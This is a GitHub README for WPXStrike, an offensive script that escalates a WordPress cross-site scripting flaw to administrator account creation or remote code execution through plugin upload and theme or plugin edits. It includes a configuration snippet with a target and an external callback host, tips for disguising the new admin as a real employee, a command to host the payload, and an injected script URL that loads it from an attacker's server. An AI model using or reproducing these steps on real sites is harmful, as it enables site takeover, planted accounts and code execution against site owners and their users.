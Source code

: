 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/WPXStrike/assets/96009982/dac6cab2-15eb-4f6f-ae16-b219981bd978" alt="WPXStrike" width="350">
  <br>
  WPXStrike
  <br>
</h1>

<h4 align="center">WordPress Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilties</a>.</h4>

<p align="center">
  <a href="#about">About</a> •
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#examples">Examples</a> •
  <a href="#contributing">Contributing</a>
</p>

![screenshot](https://github.com/nowak0x01/WPXStrike/assets/96009982/6e2578ba-c4ee-46ee-9a4d-8d3f7e57024b)

## About
_**WPXStrike**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in WordPress.

## Key Features

* _**Privilege Escalation**_
  - Creates an user in WordPress.
* _**(RCE) Plugin Upload**_
  - Upload your custom plugin to WordPress.
* _**(RCE) Built-In Plugin Edit**_
  - Edit a Built-In Plugins in WordPress.
* _**(RCE) Built-In Theme Edit**_
  - Edit a Built-In Themes in WordPress.
* _**(Custom) Custom Exploits**_
  - Custom Exploits for Third-Party WordPress Plugins/Themes.
  
## How To Use
https://github.com/nowak0x01/WPXStrike/assets/96009982/6fb5e850-c3ee-46ab-a9c4-15ed446391ce

1\) Clone the Repository
```bash
git clone https://github.com/nowak0x01/WPXStrike
```

2\) Edit the script by selecting the desired function and modifying its variable values. (Example: _**WPCreateAccount**_)
```
var Target = "https://example.com/wordpress/"; // Ex: https://172.16.0.13:8000/wordpress/
var Callback = "https://xopy8j7taqgx8638bcvddnufh3nxbozd.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

WPCreateAccount(); // (Privilege Escalation) - Creates an user in WordPress.
// WPUploadCustomPlugin(); // (RCE) - Upload your custom plugin to WordPress.
// WPEditPlugins(); // (RCE) - Edit a Built-In Plugins in WordPress.
// WPEditThemes(); // (RCE) - Edit a Built-In Themes in WordPress.
// CustomExploits(); // (Custom) - Custom Exploits for Third-Party WordPress Plugins/Themes.

function WPCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Username = "nowak";         // Ex: operator (It is recommended to use a valid employee name from the target company).
    var Password = `j^QEkyvd7*g3xqsE`;          // (weak password are allowed).
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered).
    var Role = "administrator";                 // Ex: administrator, editor, author, contributor, subscriber.
    var FirstName = ""; // (optional)
    var LastName = "";  // (optional)
    /* ************************************************************************************************************************************************ */

    ...

```

3\) Start a web server
```bash
php -S 0.0.0.0:80 -t .
```

4\) Go to the WordPress XSS vector and include _**WPXStrike.js**_
```
https://example.com/wordpress/?search=<script src="//YOURIP/WPXStrike.js"></script>
```

## Examples
**_WPCreateAccount()_ - Creates an user in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/ac3e0f44-f684-41e5-a254-3f7b845f874d

**_WPUploadCustomPlugin()_ - Upload your custom plugin to WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/475c4116-8d56-4fcb-9d4f-94fcdfee9161

**_WPEditThemes()_ - Edit a Built-In Themes in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/8fda1d80-8fd7-451a-a130-6da88f295756

**_WPEditPlugins()_ = Edit a Built-In Plugins in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/b2796b1a-5431-4ef4-ac73-aa6b6799dad4

**_CustomExploits()_ - Custom Exploits for Third-Party WordPress Plugins/Themes**.<br>
// pending

# Contributing
Pull requests are more than welcome.<br>
I will try to maintain this project updated, whenever possible by adding new exploits in the `CustomExploits()` module.<br>
If u want to contribute with this, adding new `CustomExploits()` or improving the code, I'll be very grateful.
